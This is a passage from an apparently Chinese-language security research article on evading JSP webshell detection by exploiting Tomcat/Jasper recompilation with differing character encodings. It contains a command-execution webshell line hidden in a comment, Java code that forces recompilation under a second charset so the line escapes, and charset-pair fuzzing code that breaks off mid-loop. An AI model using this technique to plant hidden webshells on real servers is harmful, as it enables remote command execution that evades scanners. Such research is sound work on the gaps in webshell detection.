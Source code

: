 原样本中被引号包裹的字符串，最终被当作了代码进行执行，并且对象的传递放在了不同的字符串中，同样引擎如果没能正确编译jsp文件后再检测，就会存在漏报的可能。

## 三、二次编译

到这里从jsp到java的过程就结束了，现在回过头来思考文章之前提到的那个问题，是否有什么控制参数，可以让我们的jsp文件被编译成功，并且我们通过设置这个参数，让jsp再次编译时产生不同的效果？要解决这个问题需要先回顾哪里存在控制参数。前文提到的第一处是在pageInfo生成时一连串的if。就像p牛的那个例子，但同样以那个例子为例，如果没有 `trimDirectiveWhitespaces='true'`，则jsp文件在第一次被上传时就无法正确解析，也就无法被利用。

 ![](/attachments/2024-06-19-webshell/a3d6c15b-93ab-4048-b2e2-973c892160f0.png)

前文提到的第二处控制参数配置在那段代码之后。程序通过ParserController对象解析jsp中的编码设置，对jsp文件使用特定编码进行读取，在那以后会从Options对象中，获取javaEncoding属性，对输出的java文件进行输出。这里的Options是代码中可控的，所以我们可以控制代码在被运行时，再用一个指定的编码控制输出文件的编码。综合这些思路，提出一种理论上可行的绕过方法：

1. 寻找两种编码，这两种编码对换行符之类的控制字符存在解析差异。即第一种编码不会将解析成换行符而是一个普通的字符，第二种编码会解析为换行符。并且这两种编码在解析其他文本时存在尽量少的区别。
2. jsp文件在pageEncoding中标注为第一种编码，此时上传上去的文件会以这种编码解析文件。其中以注释符//开头，并在其后写恶意代码。此时由于编码会解析为普通字符，因此这段代码只是一段注释，不会被保存到java文件中，更不会被解析。

   ```java
   //\nRuntime.getRuntime().exec(request.getParameter("cmd"));
   ```

3. 在jsp的代码中包含如下代码：

   ```java
   Options options  = new Options();
   options.setPageEncoding="编码二";
   JspServletWrapper jspServletWrapper =  new JspServletWrapper(config,options,"/webshell.jsp",new JspRuntimeContext(application,options));
   JspCompilationContext jspCompilationContext = new JspCompilationContext("/webshell.jsp",options,application,jspServletWrapper,new JspRuntimeContext(application,options));
   new File(jspCompilationContext.getClassFileName()).delete();
   jspCompilationContext.compile();
   jspCompilationContext.load().getConstructor().newInstance();
   ```

   当jsp运行时，就会使用编码二设置Java文件的PrintWriter编码，编码二会把识别成换行，恶意的代码也就逃逸了出来，从而后续被编译和执行。

思路清楚，问题就是如何找到这样的两种编码。使用下面的代码fuzz一下：

```java
public static void writeToFile(File file, String content, String charsetName) {
    try (OutputStreamWriter writer = new OutputStreamWriter(new FileOutputStream(file, true), Charset.forName(charsetName))) {
        writer.write(content);
    } catch (IOException e) {
        e.printStackTrace();
    }
}
public static void main(String[] args) {
    Map<String, Charset> charsets = Charset.availableCharsets();
    Map<String, Charset> charsets2 = Charset.availableCharsets();
    String filePath = "test.jsp";

    for (Map.Entry<String, Charset> entry : charsets.entrySet()) {
        for(Map.Entry<String, Charset> entry2 : charsets2.entrySet()) {
            Charset charset = entry.getValue();
            Charset charset2 =entry2.getValue();
            try {
                File file = new File("test.jsp");
                new PrintWriter(filePath).close();

                writeToFile(file,"//",charset.name());
                writeToFile(file,"\n",charset2.name());
                writeToFile(file,"test",charset.name());
                byte[] encoded = Files.readAllBytes(Paths.get(filePath));

                String ret1 =  new String(encoded,charset);
                String ret2 = new String(encoded,charset2);
```
